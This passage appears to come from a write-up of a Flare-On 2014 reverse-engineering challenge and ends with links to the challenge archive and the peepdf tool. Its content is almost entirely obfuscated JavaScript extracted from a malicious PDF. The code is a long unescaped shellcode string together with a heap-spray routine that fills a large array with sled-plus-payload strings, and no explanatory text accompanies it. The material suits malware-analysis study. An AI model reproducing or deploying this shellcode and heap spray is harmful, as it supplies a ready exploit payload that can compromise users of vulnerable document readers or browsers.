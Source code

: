 ``` javascript
var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=128;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) MPBPtdcBjTlpvyTYkSwgkrWhXL += unescape("%ub32f%u3791");
ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA = fJWhwERSDZtaZXlhcREfhZjCCVqFAPS+ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length
while (OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length<fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA) OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY+=OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;
UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
MOysyGgYplwyZzNdETHwkru = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length-fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
while(MOysyGgYplwyZzNdETHwkru.length+fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA < 0x40000) MOysyGgYplwyZzNdETHwkru = MOysyGgYplwyZzNdETHwkru+MOysyGgYplwyZzNdETHwkru+UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb;
DPwxazRhwbQGu = new Array();
for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<100;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) DPwxazRhwbQGu[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = MOysyGgYplwyZzNdETHwkru + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv;

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=142;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += unescape("%ub550%u0166");
bGtvKT = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length + 20
while (zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length < bGtvKT) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
Juphd = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, bGtvKT);
```

  [c2c76e1c]: http://www.flare-on.com/files/2014_FLAREOn_Challenges.zip "Flare-On 2014"
  [peepdf]: https://github.com/jesparza/peepdf "PeePDF"